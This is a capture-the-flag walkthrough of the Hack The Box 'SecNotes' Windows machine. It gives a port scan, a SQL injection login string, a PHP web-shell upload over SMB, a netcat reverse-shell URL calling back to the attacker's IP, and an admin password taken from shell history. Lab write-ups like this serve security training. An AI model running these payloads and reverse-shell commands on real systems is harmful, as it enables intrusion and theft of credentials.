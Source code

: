 ```yaml
---
title: "HTB SecNotes"
permalink: /writeups/secnotes
location: default
---
```


# HTB SecNotes

**Machine Information**

	IP : 10.10.10.97
	OS : Windows

### Reconnaissance

**Rustscan**

Start by running a port scan using `rustscan`.

```
rustscan -a 10.10.10.97 -- -sC -sV
```

This should reveal three open ports: `80`, `445`, and `8808`.

```
PORT     STATE SERVICE      REASON  VERSION
80/tcp   open  http         syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)
8808/tcp open  http         syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Getting a Foothold

**SQL Injection**

We are able to create an account on the website but it doesn't reveal much. After a bit of testing the account creation page has a SQL injection vulnerability. Create a new account with the username:

```
' or 1='1
```

When you sign in it will return the notes for all users and reveal the password for `tyler`. Use these credentials to connect to the SMB share `new-site`.

```
smbclient -U tyler \\\\10.10.10.97\\new-site
```

The share shows some IIS files which indicate this is likely the IIS web server directory. This can be confirmed by opening the file `iisstart.png` in a browser.

<http://10.10.10.97:8808/iisstart.png>

Upload a web shell and the `nc.exe` binary using the SMB share.

```
put php_cmd.php
put nc.exe
```

Once both are uploaded start a new `netcat` listener and create a reverse shell using the web shell.

```
http://10.10.10.97:8808/php_cmd.php?cmd=nc.exe%2010.10.14.4%209001%20-e%20cmd.exe%2010.10.14.16%209001
```

Success!

```
C:\inetpub\new-site>whoami
secnotes\tyler
```

The user flag can be found in the following directory:

```
C:\Users\tyler\Desktop\user.txt
```

### Privilege Escalation

During enumeration as `wsl.exe` binary was identified.

```
where /R c:\windows wsl.exe
```

```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

Run it to get a root shell in the WSL environment.

```
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

**Upgrade Shell**

Use the python one liner to upgrade our shell.

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

**History**

Check the user history to find the Administrator password.

```
history
```

Use the `smbclient` command found in history to escape the WSL environment and connect to the SMB share as the Administrator.

```
smbclient -U 'administrator%<PASSWORD>' \\\\127.0.0.1\\c$
```

The root flag can be found in the following directory:

```
C:\Users\Administrator\Desktop\root.txt
```
